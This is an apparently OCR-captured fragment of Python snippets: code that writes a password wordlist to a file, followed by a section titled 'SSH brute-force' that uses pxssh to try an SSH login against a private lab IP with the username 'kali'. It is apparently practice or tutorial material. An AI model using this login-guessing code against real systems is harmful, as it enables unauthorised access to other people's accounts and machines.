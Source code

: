           for i in temp:
              passwords.write("".join(i))
              passwords.write("".join("\n"))




          pass
      if __name__ == '__main__':
          main()



##  ssh暴力破解  ##
      def Login(server,username,password):
          try:
              s = pxssh.pxssh()
              s.login(server, username, password)
              print("yes")
          except:
              print("no")
      def main():

          Login("192.168.161.182", "kali", "202193")

          pass
      if __name__ == '__main__':
          main()
